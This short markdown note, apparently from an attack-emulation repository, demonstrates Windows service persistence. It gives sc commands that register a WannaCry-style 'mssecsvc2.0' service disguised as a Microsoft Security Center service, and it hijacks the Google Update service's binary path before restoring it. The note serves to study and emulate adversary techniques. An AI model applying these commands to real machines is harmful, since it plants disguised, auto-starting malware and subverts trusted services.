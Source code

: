 # Create or Modify System Process: Windows Service

- Code and compile program `Windows Service Application` - WannaCry.exe

- Create Service
  - Create Service follow case attack WannaCry.
  ```powershell
  sc create "mssecsvc2.0" DisplayName = "Microsoft Security Center (2.0) Service" binPath = "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe" start = "auto"
  sc start mssecsvc2.0
  sc stop mssecsvc2.0
  sc delete mssecsvc2.0
  ```

- Modify Service
  * Modify google update service.
  ```powershell 
  sc config gupdate binPath= "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe"
  sc start gupdate
  ```
  * Restore default path google update.
  ```powershell 
  sc config gupdate binPath= "\"C:\Program Files (x86)\Google\Update\GoogleUpdate.exe\" /svc" >nul 2>&1 
  ```
